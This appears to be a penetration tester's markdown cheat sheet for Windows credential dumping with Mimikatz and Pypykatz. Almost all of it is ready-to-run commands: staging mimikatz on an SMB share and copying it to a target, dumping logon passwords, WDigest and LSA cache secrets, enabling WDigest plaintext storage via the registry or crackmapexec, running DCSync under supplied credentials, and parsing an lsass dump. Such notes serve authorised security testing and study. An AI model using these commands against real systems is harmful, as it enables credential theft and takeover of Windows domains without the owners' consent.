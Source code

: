 # Mimikatz

## Mimikatz

### Locate

```bash
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

### Host mimikatz

```bash
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```

### Copy to Target

Copy to Target - x86

```cmd
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x64

```cmd
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```

### Get all available creds

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```

LSA cache

```cmd
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Enabling wgigest

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M wdigest -o ACTION=enable
```

OR

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

### runas

```cmd
runas /noprofile /user:<DOMAIN>\<USER> C:\Temp\mimikatz\mimikatz.exe
```

OR (example for DCSync)

```powershell
$SecPassword = ConvertTo-SecureString '<PWD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
Start-Process C:\Temp\mimikatz\mimikatz.exe -Credential $Cred -ArgumentList '"lsadump::dcsync /user:<DOMAIN>\<TARGET_USER>"'
```

## Pypykatz

Get secrets from memory dump

```bash
pypykatz lsa minidump --grep lsass.DMP
```

## Links

- [wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
- [-wdigest-exploration](https://www.jimmwayans.com/mimikatz-exploration-wdigest/)
- [ERROR kuhl_m_sekurlsa_acquireLSA ; Key import](https://github.com/gentilkiwi/mimikatz/issues/248)